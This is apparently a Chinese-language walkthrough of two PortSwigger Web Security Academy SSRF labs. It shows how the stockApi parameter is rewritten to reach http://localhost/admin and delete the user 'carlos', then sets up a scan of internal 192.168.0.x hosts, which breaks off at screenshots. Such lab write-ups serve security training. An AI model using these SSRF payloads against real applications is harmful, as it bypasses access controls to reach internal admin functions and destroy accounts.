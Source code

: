 [TOC]

#### 1. Basic SSRF against the local server

> an attacker can modify the request to specify a URL local to the server itself. For example:
>
> ```http
> POST /product/stock HTTP/1.0
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 118
> 
> stockApi=http://localhost/admin
> ```
> 
> Now of course, the attacker could just visit the /admin URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the /admin URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

这道题在检查库存时，抓包，发现了：

`stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`

那么可以尝试用这个去访问其他机密网址。我们在直接访问`/admin`时提醒没有权限，用这个API去试试。

`stockApi=http://localhost/admin`

我们就得到了网站。并且发现了需要删除的账户。`<a href="/admin/delete?username=carlos">Delete</a>`

POC：`stockApi=http://localhost/admin/delete?username=carlos`

#### 2. Basic SSRF against another back-end system

* 要求：扫描192.168.0.x:8080端口，并且删除carlos。
* 手段：从库存系统获取内部数据。

在查询库存的地方抓包，可以看到有stockApi：

```
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

猜测这个是可以改变的。

用这个去爆破。

![2.1](SSRF-burp.assets/2.1.png)

![2.2](SSRF-burp.assets/2.2.png)
